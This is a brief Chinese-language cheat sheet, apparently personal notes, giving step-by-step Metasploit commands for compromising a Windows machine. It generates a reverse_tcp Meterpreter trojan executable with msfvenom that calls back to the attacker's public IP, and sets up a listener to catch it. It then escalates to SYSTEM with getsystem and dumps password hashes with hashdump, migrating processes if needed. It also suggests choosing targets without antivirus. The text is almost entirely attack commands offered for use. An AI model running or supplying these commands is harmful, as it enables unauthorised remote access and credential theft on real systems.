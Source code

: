     过程我就不说了，大概思路就是msf生成一个exe木马反弹到公网主机
    然后最好是目标没有杀软（AV）先试试meterpreter自带的提权不行的话就换其他exp然后读hash
    破解hash就ok，如果读不出hash就进行进程迁移。
    
    具体如下
    1.msfvenom -p windows/meterpreter/reverse_tcp LHOST=公网ip LPORT=5200 -f exe -o msf.exe
      msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=公网ip LPORT=5200 -f exe -o x64.exe
    2.use exploit/multi/handler
      set payload windows/meterpreter/reverse_tcp
      set lport 5200
      set lhost 外网IP（nat关系看情况）
      exploit     
    3.shell（network service权限）执行 最好system权限执行
    4.getsystem —> getuid
    5.hashdump (如果不行则换进程)
      migrate pid —> hashdump
